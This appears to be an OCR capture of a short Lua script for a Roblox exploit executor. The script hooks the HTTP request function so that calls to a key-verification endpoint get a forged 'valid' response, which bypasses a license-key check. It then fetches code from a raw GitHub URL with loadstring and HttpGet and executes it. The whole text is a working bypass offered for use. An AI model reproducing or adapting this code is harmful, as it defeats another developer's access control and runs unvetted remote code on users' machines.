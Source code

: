 local rekeste = http and http.request or syn and syn.request or request

hookfunction(rekeste, function(args)
    if args.Url:find("scriptsbinsauth.vercel.app/api/verify%-key") then
        print("hookfunction bem do basic")

        return {
            StatusCode = 200,
            Success = true,
            StatusMessage = "OK",
            Body = game:GetService("HttpService"):JSONEncode({
                valid = true,
                message = "Polengo 🥵"
            }),
            Headers = {}
        }
    end

    return rekeste(args)
end)

print("hookfunction bem do basic")

task.wait(1)

loadstring(game:HttpGet("https://raw.githubusercontent.com/dadad213/GRANDSCRIPTO/refs/heads/main/script.lua"))()
